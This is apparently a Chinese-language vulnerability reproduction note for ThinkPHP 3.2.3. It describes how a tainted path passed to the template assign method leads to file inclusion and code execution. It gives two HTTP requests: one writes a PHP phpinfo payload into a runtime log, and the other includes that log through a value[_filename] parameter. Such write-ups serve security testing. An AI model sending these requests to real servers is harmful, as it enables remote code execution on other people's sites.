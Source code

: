 # 0x01-漏洞浅析
该漏洞产生的根本原因是，在业务代码中对模板赋值方法assign的第一个参数传入携带攻击代码的路径，导致模板路径变量被覆盖为携带攻击代码路径，导致文件包含，进而代码执行

# 0x02-影响版本
待测试

# 0x03-环境搭建
phpstudy8.1.1.3 + thinkphp3.2.3  
搭建过程见：https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ  

# 0x04-复现过程
```
GET /thinkphp-3.2.3/index.php?m=--><?=phpinfo();?> HTTP/1.1
```
![image](./image/01.png)  
![image](./image/02.png)  
```
GET /thinkphp-3.2.3/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/22_03_21.log HTTP/1.1
```
![image](./image/03.png)  
![image](./image/04.png)  

# 0x05-需要注意
暂无